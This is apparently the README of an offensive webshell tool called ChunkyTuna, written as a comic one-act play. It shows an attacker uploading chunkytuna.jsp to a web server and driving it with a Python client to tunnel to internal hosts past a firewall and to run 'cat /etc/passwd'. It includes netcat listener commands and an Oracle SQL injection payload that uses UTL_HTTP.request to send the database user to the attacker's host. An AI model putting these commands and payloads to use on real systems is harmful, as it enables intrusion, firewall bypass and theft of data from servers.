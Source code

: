 # ChunkyTuna - a play in one act

## Act I   

### Act I Scene I - Prelude

Enter WEBSERVER and ATTACKER

 > WEBSERVER: Hello Attacker! I see you might have something for me.

 > ATTACKER: Hello Victim! Yes indeed, I have for you this beautiful
 > `chunkytuna.jsp` file, henceforth called WEBSHELL

ATTACKER uploads `chunkytuna.jsp` to WEBSERVER.

 > WEBSERVER: Thank you! I shall prepare it for you then

WEBSERVER loads the WEBSHELL.

Exit WEBSERVER.

### Act I   Scene II - A Connection

Where ATTACKER rides an unsuspecting WEBSERVER and reads their inner secrets
beyond the mighty FIREWALL thanks to an accomplice.

Enter ATTACKER and WEBSHELL.

 > ATTACKER: I think I shall now connect to the WEBSHELL using this magnificent CLIENT!

ATTACKER runs `python chunkytuna.py http://WEBSERVER:8888/c/chunkytuna.jsp  -t TARGET:80 -r 127.0.0.1:12345 C`. Magically, CLIENT appears:

 > CLIENT: Greetings my lord! I am ready to proceed and I shall await for your command.

 > ATTACKER: Excellent, excellent. Now I shall open this CONSOLE to be my messenger!

ATTACKER runs `nc localhost 12345`.

Enter CONSOLE, a dark figure with a white, blinking cursor on the left.

 > CONSOLE: I am your humble servant and shall now connect to CLIENT to carry
 > your messages or powerful ATTACKER!

Unbeknowst to ATTACKER, CONSOLE and CLIENT engage in a quiet conversation:

 > CLIENT: Behold! A Connection from a CONSOLE! I will now inform WEBSHELL to proceed.

CLIENT connects to WEBSHELL.

 > CLIENT: O trusted WEBSHELL, here is your command: connect to `TARGET:80` and report back to me.

 > WEBSHELL: As you wish.

WEBSHELL connects to TARGET:80.

 > WEBSHELL: Dear CLIENT, I have connected to TARGET:80 and in this envelope you shall find the response.

WEBSHELL hands over to CLIENT an envelope. On the envelope a number is written.

 > CLIENT: Thank you WEBSHELL. I reckon this number is the size of the message. I
 > shall pass this to my master.

CLIENT opens the envelope and gives its content to CONSOLE.

 > CLIENT: O Console, here is what you commanded.

CONSOLE receives the content and proudly displays it to ATTACKER who is well pleased. The content said:

 > Hello, This is an internal only webserver. Please log in using the following credentials: root/password1

The ATTACKER will then instruct WEBSHELL to connect to TARGET:22 and will henceforth impersonate the almighty `root` user using the magic `password`.....



### Act I    Scene III - A trick.

Where ATTACKER tricks a DECEIVED entity to willingfully approach an evil WEBSHELL.

Enter ATTACKER and WEBSHELL.

 > ATTACKER: I think I shall now connect to the WEBSHELL using this magnificent CLIENT!

ATTACKER runs `python chunkytuna.py http://WEBSERVER:8888/c/chunkytuna.jsp  -t WEBSHELL:12345 -r 127.0.0.1:1234 L`. Magically, CLIENT appears:

 > CLIENT: Greetings my lord! I am ready to proceed and I shall await for your command.

 > ATTACKER: Excellent, excellent. Now I shall open this CONSOLE to be my messenger!

ATTACKER runs `nc -nlvp 1234`.

Enter CONSOLE, a dark figure with a white, blinking cursor on the left.

 > CONSOLE: I am your humble servant and shall now wait for CLIENT to command me.

Enter DECEIVED, an unsuspecting young service.

 > ATTACKER: DECEIVED! My friend, how are you?

 > DECEIVED: I am well thank you, but I am not allowed to speak to you I'm afraid.

 > ATTACKER: Oh don't you worry, I shall not bother you. I've heard however
 > that you might be allowed to speak to WEBSERVER?

 > DECEIVED: Yes I am allowed to speak to WEBSERVER.

 > ATTACKER: Excelsior! Then please do me a favour, and allow me to ask you the following QUERY:

        SELECT * FROM products WHERE id=1||UTL_HTTP.request('http://WEBSHELL:12345/'||(SELECT user FROM DUAL)) -- 

DECEIVED executes the QUERY which sends its output to WEBSHELL:12345.

Unbeknowst to ATTACKER, CONSOLE, WEBSHELL and CLIENT engage in a quiet conversation:

 > WEBSHELL: Oh my! A connection from someone at port 12345. Looks like DECEIVED
 > sent me a message. I shall pass this on to CLIENT.

 > CLIENT: WEBSERVER my trusted friend. I see you sent me an envelope with a
 > number. I shall pass the content of such envelope to CONSOLE.

CLIENT connects to CONSOLE:1234

 > CLIENT: Console, here is something for you.

CLIENT gives CONSOLE the content of the envelope.

CONSOLE receives the content and proudly displays it to ATTACKER who is well pleased.


### Act I Scene IV: An execution.

Where ATTACKER pilfers the content of the ancient scroll `/etc/passwd` from the WEBSERVER.

Enter ATTACKER and WEBSHELL.

 > ATTACKER: I think I shall now connect to the WEBSHELL using this magnificent CLIENT!

ATTACKER runs `python chunkytuna.py http://WEBSERVER:8888/c/chunkytuna.jsp  -t "cat /etc/passwd" -r 127.0.0.1:12345 X`. Magically, CLIENT appears:

 > CLIENT: Greetings my lord! I am ready to proceed and I shall await for your command.

 > ATTACKER: Excellent, excellent. Now I shall open this CONSOLE to be the recipient of my evil wizardry.

ATTACKER runs `nc -v localhost 12345  > out`

Enter CONSOLE, a dark figure with a white, blinking cursor on the left.

Unbeknowst to ATTACKER, a quiet conversation happens between CONSOLE, CLIENT and WEBSHELL.

 > CONSOLE: o CLIENT, here I am. Thank you for waiting. Now proceed with your deed!

 > CLIENT: By Jove! A connection to my local port 12345! It must be my master
 > through the trusted CONSOLE; I shall immediately inform WEBSHELL to obey my
 > commands!

CLIENT tells WEBSHELL to hasten!

WEBSHELL executes `cat /etc/passwd` and reports back to CLIENT.

 > WEBSHELL: CLIENT, my trusted friend. Here is what you asked for, in a nice envelope.

 > CLIENT: Thank you my dear WEBSHELL, my master shall be pleased.

CLIENT takes the content of the envelope and gives it quietly to CONSOLE. Suddently on the CONSOLE, the cursor DISAPPEARS!

 > CONSOLE: O mighty ATTACKER, thy will is done. What you asked is where you wanted it.

ATTACKER opens the `out` file and is pleased.

## Act II

WEBSERVER, forgotten in this adventure, will continue running WEBSHELL unaware of the danger....

